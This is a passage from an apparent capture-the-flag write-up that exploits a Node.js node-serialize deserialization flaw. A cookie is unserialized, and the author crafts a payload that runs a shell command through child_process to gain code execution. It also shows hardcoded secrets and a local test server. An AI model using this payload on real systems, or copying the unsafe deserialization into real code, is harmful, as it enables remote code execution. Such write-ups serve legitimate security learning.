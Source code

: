 ```js

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```

The file contained two secrets. I took note of them and kept reading. 

```js
//app.use(session({secret: "UHC-SecretKey-123"}));
const cookie_secret = "UHC-SecretCookie"
```

The `authenticated` function had an interesting line.

```js
c = serialize.unserialize(c)
```

This was taking the content of the `auth` cookie and unserializing it. I was sure I could use that to execute some arbitrary code.

I did a quick search for 'nodejs unserialize exploit' and the first result was [a blog with code very similar to the one I had](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

I used the code from the blog to generate a simple payload.

```
var y = {
rce : function(){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

I used the output to create an auth cookie and send it to the server. It did not respond. It must have crashed when it loaded my payload. I took the server code and simplified it to run it locally and test my payloads.

```js
const express = require('express')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const app = express()

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(express.json());
app.use(cookieParser());

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    //console.log(c);
    c = serialize.unserialize(c)
    //console.log(c);
}


app.get('/', async (req, res) => {
    authenticated(req.cookies.auth)
    res.json({});
```